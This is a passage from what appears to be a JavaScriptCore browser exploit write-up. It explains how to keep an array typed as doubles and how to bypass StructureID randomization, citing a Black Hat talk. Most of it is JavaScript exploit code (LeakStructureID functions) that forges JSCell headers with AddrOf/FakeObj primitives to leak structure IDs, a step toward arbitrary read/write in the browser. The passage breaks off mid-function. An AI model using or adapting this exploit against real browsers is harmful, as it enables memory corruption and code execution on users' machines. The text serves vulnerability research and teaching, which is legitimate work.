 Another `trick` is in the primitive, we declare  `arr` array with `let arr = new Array(noCoW, 2.2, 3.3)` instead of `arr = [noCoW, 2.2, 3.3]`. The reason is that the structure of  `arr = [noCoW, 2.2, 3.3]` will no longer be `double array` but `object array` after the vulnerability is triggered once. The form of `new Array` can ensure every time the declaration of `arr` is `double array`.

The next step is to leak valid `structure id` to bypass  `structure id randomization` mechanism with the two primitives. Just referring the [Thinking outside the JIT Compiler: Understanding and bypassing StructureID Randomization with generic and old-school methods](https:// i.blackhat.com/eu-19/Thursday/eu-19-Wang-Thinking-Outside-The-JIT-Compiler-Understanding-And-Bypassing-StructureID-Randomization-With-Generic-And-Old-School-Methods. pdf) technique.

```js
// leak entropy by functionProtoFuncToString
function LeakStructureID(obj)
{
    // https://i.blackhat.com/eu-19/Thursday/eu-19-Wang-Thinking-Outside-The-JIT-Compiler-Understanding-And-Bypassing-StructureID-Randomization-With-Generic-And-Old-School-Methods.pdf

    var unlinkedFunctionExecutable = {
        m_isBuitinFunction: i2f(0xdeadbeef),
        pad1: 1, pad2: 2, pad3: 3, pad4: 4, pad5: 5, pad6: 6,
        m_identifier: {},
    };

    var fakeFunctionExecutable = {
      pad0: 0, pad1: 1, pad2: 2, pad3: 3, pad4: 4, pad5: 5, pad6: 6, pad7: 7, pad8: 8,
      m_executable: unlinkedFunctionExecutable,
    };

    var container = {
      jscell: i2f(0x00001a0000000000),
      butterfly: {},
      pad: 0,
      m_functionExecutable: fakeFunctionExecutable,
    };


    let fakeObjAddr = AddrOf(container) + 0x10;
    let fakeObj = FakeObj(fakeObjAddr);

    unlinkedFunctionExecutable.m_identifier = fakeObj;
    container.butterfly = arrLeak;

    var nameStr = Function.prototype.toString.call(fakeObj);

    let structureID = nameStr.charCodeAt(9);

    // repair the fakeObj's jscell
    u32[0] = structureID;
    u32[1] = 0x01082309-0x20000;
    container.jscell = f64[0];
    return structureID;
}

// leak entropy by getByVal
function LeakStructureID2(obj)
{
    let container = {
        cellHeader: i2obj(0x0108230700000000),
        butterfly: obj
    };

    let fakeObjAddr = AddrOf(container) + 0x10;
    let fakeObj = FakeObj(fakeObjAddr);
    f64[0] = fakeObj[0];
```